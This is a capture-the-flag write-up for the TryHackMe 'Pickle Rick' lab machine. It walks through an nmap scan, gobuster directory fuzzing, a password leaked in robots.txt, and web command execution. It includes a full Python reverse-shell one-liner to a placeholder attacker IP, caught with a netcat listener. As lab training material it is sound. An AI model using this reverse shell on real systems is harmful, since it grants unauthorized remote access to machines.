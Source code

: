 # TryHackMe-Pickle-Rick
This is a writeup for Pickle Rick TryHackMe machine!  
https://tryhackme.com/room/picklerick

## Scanning & Enumeration

To begin with this machine, we will perform a nmap scan on our target:

```
nmap -sV -sC -T5 10.10.122.153
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 01:01 EDT
Nmap scan report for 10.10.122.153
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 79:d6:1c:ca:5e:5c:3f:14:83:d4:21:07:b1:01:76:c1 (RSA)
|   256 61:2e:22:78:78:b9:d7:7e:c9:77:2d:d3:29:07:07:da (ECDSA)
|_  256 07:64:71:80:17:56:a6:79:61:bd:d4:09:f3:85:15:4d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Service Enumeration
### Port 22 - SSH
### Port 80 - HTTP

Now we'll proceed to visit the website located at port 80
![image_2024-04-26_001448881](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/028603ac-1f72-4fd7-8b5a-83b00aa96054)
This is the first thing we see on the website, if we take a view on the page source we can find this
![image_2024-04-26_001731557](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/01135460-5b08-40c8-bfb3-cae0ffbea415)
Looks like we found an username, next, we will proceed to find hidden directories that may have been hidden from us
## Directory Fuzzing
## Using Gobuster
**Gobuster** is a tool used to brute-force:
* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).
* Virtual Host names on target web servers.
* Open Amazon S3 buckets.
* Open Google Cloud buckets.
* TFTP servers
#### If you wish to install Gobuster, here is the link to the official github repository: https://github.com/OJ/gobuster
```
gobuster dir -u 'http://10.10.122.153/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 --no-error -x php,sh,txt,cgi,html,css,js,py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.122.153/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,sh,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1062]
/assets               (Status: 301) [Size: 315] [--> http://10.10.122.153/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
```
This are some directory gobuster could find for us, we could be interested in **/login.php** so we will navigate into it
![image_2024-04-26_003529817](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bbb9309b-3f13-431f-9c04-31f441a966f2)
We will find a login page, we already have the username but we lack the password, so we can keep with the directory fuzzing
At some point, we will encounter a file called **robots.txt**, most websites will have a robots.txt file which basically tells the sitee what it is allowed and not allowed to index.
If we check the robots.txt file we will encounter
![image_2024-04-26_003953275](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/f874ffe2-2943-4d26-991e-d1a19f75a39b)
This could be the password for our **/login.php** so lets try
![image_2024-04-26_004100740](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a0f5cb3e-e8eb-40fd-949e-1416b55078db)
And we were right, it was indeed the password for our **/login.php**
## Command Panel
The site we were redirected has a command panel, so, lets try to execute some simple command to see if it allows us to do so
![image_2024-04-26_004451144](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/9fb45fdf-e904-4727-a731-71c03ef058e0)
And with this, we realize we can actually execute commands, if we try to execute a **cat** in Sup3rS3cretPickl3Ingred.txt, we are disallowed to perform it
![image_2024-04-26_004650641](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/488fe1f4-f619-46bc-a066-36a7ea11114c)
We can read the file if we do this though
```
http://<ip>/Sup3rS3cretPickl3Ingred.txt
```
And like that, we will have the first ingredient

At this point, we could go for two ways on exploiting this machine to get the other ingredientes

## First way
### Getting a reverse shell through command panel
First, we can search the python version with 
```
which python3
which python2
which python
```
We will find this
![image_2024-04-26_005506068](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/00f2e85c-1ce6-4aa0-bb96-c120d5d09188)
Ok, so now we know that python3 is on this machine so lets get a reverse shell using this:
`python3 -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<yourIp>",<listeningPort>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
Before we execute the command we need a netcat set on the port we specified like this
![image_2024-04-26_005931396](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/28f227fb-d676-4c0b-9a7e-5797d115a2bb)
If everything is working right, we will receive a reverse shell on our listening port
![image_2024-04-26_010239772](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/959d6e72-01b1-4c63-a953-ccd4d6226ed5)
We can upgrade this shell using `bash -i`
So, with this shell, we are way more comfortable moving around the machine without needing to use the command panel
Lets search for the other ingredients
![image_2024-04-26_010637175](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/059b7936-ce3a-410b-9197-0cf37deebe78)
If we move to this directory and do a `ls` on it, we will find the second ingredient
![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/6fab408b-ff97-424a-ae4e-5d36c30ea34b)


